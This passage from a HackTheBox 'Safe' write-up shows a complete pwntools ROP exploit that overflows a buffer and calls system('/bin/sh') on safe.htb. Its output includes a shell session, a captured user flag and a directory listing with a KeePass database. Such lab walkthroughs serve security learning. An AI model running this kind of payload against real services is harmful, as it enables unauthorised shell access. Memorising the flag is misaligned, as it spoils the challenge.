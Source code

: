 If you still don't get a shell try doing a recvuntil() for the gets message, which I've commented.

# Sending payload to safe.htb

Let's change the gdb debug myapp part to connecting to safe.htb at port 1337:

```python
#!/usr/bin/python3
from pwn import *

#p = gdb.debug('./myapp')
p = remote('safe.htb',1337)

junk =("A"* 112).encode()
shell = "/bin/sh\x00".encode()
pop_r13 = p64(0x401206)
system = p64(0x401040)
null = p64(0x0)
test = p64(0x401152)

#p.recvuntil('What do you want me to echo back?')
p.sendline(junk + shell + pop_r13 + system + null + null + test)
p.interactive()
```

And we get a shell:

```bash
root@TheCaretaker:~/HTB/Safe# python3 scripts/temp.py
[+] Opening connection to safe.htb on port 1337: Done
[*] Switching to interactive mode
 07:02:51 up 0 min,  0 users,  load average: 0.00, 0.00, 0.00
$ whoami
user
$ cat /home/user/user.txt
7a29ee9b0fa17ac013d4bf01fd127690
$
```

# Privesc with keepass

Listing contents of home directory, I see 6 images and a `keepass` password database file.

```bash
$ ls
IMG_0545.JPG
IMG_0546.JPG
IMG_0547.JPG
IMG_0548.JPG
IMG_0552.JPG
IMG_0553.JPG
myapp
MyPasswords.kdbx
user.txt
```
